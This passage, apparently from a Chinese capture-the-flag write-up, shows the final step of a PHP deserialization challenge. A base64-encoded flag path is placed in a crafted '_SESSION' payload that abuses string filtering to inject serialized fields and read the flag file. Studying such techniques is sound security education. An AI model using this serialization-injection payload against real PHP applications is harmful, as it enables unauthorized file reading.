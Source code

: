 获取`/d0g3_fllllllag`的base64加密值`L2QwZzNfZmxsbGxsbGFn`（刚好也是20位），填入payload，得到最终payload：  
`_SESSION[user]=flagflagflagflagflagphp&_SESSION[function]=";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";s:1:"a";s:2:"bb";}`   
取得flag
![](serialize-unserialize/8.png)
<br>
如果理解的还不是很清晰可以再去看一下夺命十三枪这道题，很不错

